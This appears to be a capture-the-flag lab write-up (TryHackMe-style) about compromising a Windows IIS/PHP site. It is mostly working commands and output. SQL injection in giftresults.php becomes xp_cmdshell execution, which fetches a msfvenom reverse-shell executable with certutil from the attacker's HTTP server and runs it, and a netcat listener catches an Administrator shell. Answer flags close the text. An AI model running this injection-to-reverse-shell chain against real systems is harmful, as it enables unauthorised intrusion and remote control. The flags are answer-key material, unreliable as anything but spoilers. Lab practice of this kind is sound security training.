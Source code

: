 http://10.10.86.217 [200 OK] Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[Microsoft-IIS/10.0], IP[10.10.86.217], JQuery, Microsoft-IIS[10.0], PHP[8.2.11], Script, Title[Worst Grumpy Company], X-Powered-By[PHP/8.2.11], X-UA-Compatible[IE=edge]
-------------------------------------------------------------------------------------------------------------------

[1] http://10.10.86.217/giftresults.php? is the search form -->> vulnerable after trying 'or 1=1'

[2] output Database query error: Array ( [0] => Array ( [0] => 42000 [SQLSTATE] => 42000 [1] => 105 [code] => 105 [2 => [Microsoft][ODBC Driver 17 for SQL Server][SQL Server]

[3] http://10.10.86.217/giftresults.php?age='OR 1=1 --senior&budget=30 // 

lets try to inject an reverse shell 
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<LocalIpAdress> LPORT=4444 -f exe -o reverse.exe 

put revershell in ~ and python3 -m http.server 8000

http://10.10.86.217/giftresults.php?age='; EXEC xp_cmdshell 'certutil -urlcache -f http://LocalIpAdress:8000/reverse.exe C:\Windows\Temp\reverse.exe'; --

python3 -m http.server 8000   
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.86.217 - - [17/Dec/2023 11:53:55] "GET /reverse.exe HTTP/1.1" 200 -

setup netcat to selected port:  nc -lvnp 4444

now execute the reverseshell 
http://10.10.86.217/giftresults.php?age=%27;%20EXEC%20xp_cmdshell%20%27C:\Windows\Temp\reverse.exe%27;%20--


└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.8.224.251] from (UNKNOWN) [10.10.86.217] 49900
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.
C:\Windows\system32>    

[4]C:\Users\Administrator\Desktop>type Note.txt

[5]C:\Users\Administrator\Desktop>restore_website.bat // Go check restored webpage /index.php for flag


answer[1] : giftresults.php
answer[2] : ODBC Driver 17 for SQL Server
answer[3] : THM{a4ffc901c27fb89efe3c31642ece4447}
answer[4] : THM{b06674fedd8dfc28ca75176d3d51409e}
answer[5] : THM{4cbc043631e322450bc55b42c}
